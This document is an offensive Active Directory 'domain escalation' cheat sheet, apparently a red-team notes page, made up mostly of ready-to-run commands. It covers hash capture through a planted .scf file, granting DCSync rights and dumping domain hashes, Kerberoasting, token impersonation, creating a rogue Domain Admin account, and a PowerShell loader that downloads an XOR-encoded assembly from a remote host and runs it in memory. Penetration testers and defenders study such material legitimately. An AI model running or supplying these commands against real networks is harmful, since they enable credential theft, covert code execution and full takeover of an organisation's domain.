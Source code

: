 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) & [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [Ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
- [adidnsdump](https://github.com/dirkjanm/adidnsdump)
- [SharpSniper](https://github.com/HunnicCyber/SharpSniper)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu) (remote graphical view)

> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

```bash
# Install bloodhound
sudo apt-get update && sudo apt-get install bloodhound python3-pip && git clone https://github.com/SecureAuthCorp/impacket.git && cd impacket && pip3 install .
```

```bash
#enum4linux
enum4linux -a <target_dc> <user> -p <pass> -d <domain>

#bloodhound-python
bloodhound.py -d <DOMAIN> <user> -p <pass> -dc <FQDN-SERVER> -c all

#ldapdomaindump
pip install ldapdomaindump && ldapdomaindump -u '<domain>\<user>' -p '<pass>' <target>

#ldapsearch
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```

---

## **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Domain users and password policy \(especially complexity and lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
enum4linux <target> |grep "user:" | cut -d '[' -f2 | cut -d "]" -f1 > users.txt
```

Domain computers 

```bash
#pip install git+https://github.com/dirkjanm/adidnsdump#egg=adidnsdump
adidnsdump -u <domain>\\<user> -p <pass>
adidnsdump -u <domain>\\<user> -p <pass> --forest --include-tombstoned
adidnsdump -u <domain>\\<user> -p <pass> --dns-tcp

Get-ADComputer -Filter * -Property * | Select-Object Name,OperatingSystem,OperatingSystemVersion,ipv4Address | Export-CSV ADcomputerslist.csv -NoTypeInformation -Encoding UTF8

# Find specific computer of domain user
SharpSniper.exe emusk <username> <password>
```

### Open shares \(SMB, NFS, FTP, etc\)

**SMB readable shares**

```bash
# ManSpider
git clone https://github.com/blacklanternsecurity/MANSPIDER && cd MANSPIDER && pipenv --python 3 shell
pip install -r requirements.txt
./manspider.py <target> -d <domain> -u <user> -p <pass> -f passw user admin account network login logon cred 
./manspider.py <target> -d <domain> -u <user> -p <pass> -c password -e xlsx
./manspider.py <target> -d <domain> -u <user> -p <pass> -e bat com vbs ps1 psd1 psm1 pem key rsa pub reg txt cfg conf config 

# smbmap
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 

# SMB V1
smbclient -L ///192.168.0.1 -U <user> -c ls [--option='client min protocol=NT1']
mount //10.11.1.136/"Bob Share" /mnt/bob [-o vers=1.0]

smbget -rR smb://<target>/<share>/ -U <user
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`

```

**SMB writable shares**

upload this @scf_filename.scf and listen for the hash with Responder/NTLMrelayx

> Note: add a @ at first letter of the filename will place the .scf file on the top of the shared folder

```bash
[Shell]
Command=2
IconFile=\\<listener_ip>\share\<ico_name>.ico
[Taskbar]
Command=ToggleDesktop
```


**NFS**

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

---

## **ACLs**

Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

## **Kerbrute AS-REP**

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/users.txt <target>
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---


## **Impersonation Token**

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

---

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

---

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)


### Refs

- https://0xsp.com/ad-attack-or-defense/ad-ttps-list
- https://m0chan.github.io/2019/07/30/Windows-Notes-and-Cheatsheet.html
- https://github.com/yeyintminthuhtut/Awesome-Red-Teaming
- https://ired.team/
- https://github.com/vysecurity/RedTips
- https://0x00-0x00.github.io/
- https://blog.xpnsec.com/
- https://egre55.github.io
- https://rastamouse.me/
- https://posts.specterops.io/
- https://dirkjanm.io/
- https://adsecurity.org/
- http://www.labofapenetrationtester.com/
